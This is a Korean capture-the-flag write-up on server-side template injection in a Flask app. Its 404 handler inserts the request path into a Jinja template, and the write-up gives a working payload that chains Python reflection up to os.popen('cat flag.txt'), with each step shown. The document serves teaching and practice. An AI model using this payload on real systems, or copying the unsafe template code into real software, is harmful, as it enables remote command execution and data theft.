








<!-- markdownlint-disable MD010 MD025 MD033 -->

# Simple-ssti

## 목차

## 1. Vuln

SSTI(Server-side Template Injection):

## 2. Code

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, render_template_string, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

app.secret_key = FLAG


# index 페이지
@app.route('/')
def index():
    return render_template('index.html')

# 404 에러 페이지
@app.errorhandler(404)
def Error404(e):
    template = '''
    <div class="center">
        <h1>Page Not Found.</h1>
        <h3>%s</h3>
    </div>
    ''' % (request.path)
    return render_template_string(template), 404

app.run(host='0.0.0.0', port=8000)
```

404 에러페이지에서 사용자로부터 입력받은 값을 검증 없이 문자열로 연결, 템플릿으로 조립하고 있다.
FLAG는 `./flag.txt`에서 읽어와 `app.secret_key`로 저장하고 있다.

## 3. Payload

{ % raw % }
`{{"".__class__.__base__.__subclasses__()[109].__init__.__globals__['sys'].modules['os'].popen('cat flag.txt').read()}}`
{ % endraw % }

코드에 대해서 설명하자면

### 전체 구조

{ % raw %}
`{{ ... }}`: 템플릿 코드 Jinja로 감싸기
{ % endraw %}

### 객체 탈출(파이썬 리플렉션 체인)

> 리플렉션(Reflection): 런타임에서 프로그램의 구조를 파악하고 동적 객체 생성 및 함수 호출 등의 행위를 수행할 수 있게 해주는 장치이다.

<details>
<summary> 토글 접기/펼치기</summary>
<div markdown="1">

`7*7`


`"".__class__`


`{{"".__class__.__base__}}`


`"".__class__.__base__.__subclasses__()`


`"".__class__.__base__.__subclasses__()[109].__init__`


`"".__class__.__base__.__subclasses__()[109].__init__.__globals__['sys']`


`"".__class__.__base__.__subclasses__()[109].__init__.__globals__['sys'].modules['os']`


`"".__class__.__base__.__subclasses__()[109].__init__.__globals__['sys'].modules['os'].popen('cat flag.txt')`


`{{"".__class__.__base__.__subclasses__()[109].__init__.__globals__['sys'].modules['os'].popen('cat flag.txt').read()}}`


</div>
</details>

## 참고

- [quantylab: 파이썬 리플렉션 (동적 클래스 인스턴스 생성 및 함수 호출)](https://blog.quantylab.com/python_reflection.html)
- [Python Docs: reflection](https://docs.python.org/ko/3/c-api/reflection.html)
- [WikiDocs: subprocess.Popen()](https://wikidocs.net/14350)
- [Github Pages: Server-Side Template Injection(SSTI)](https://core-research-team.github.io/2021-05-01/Server-Side-Template-Injection(SSTI))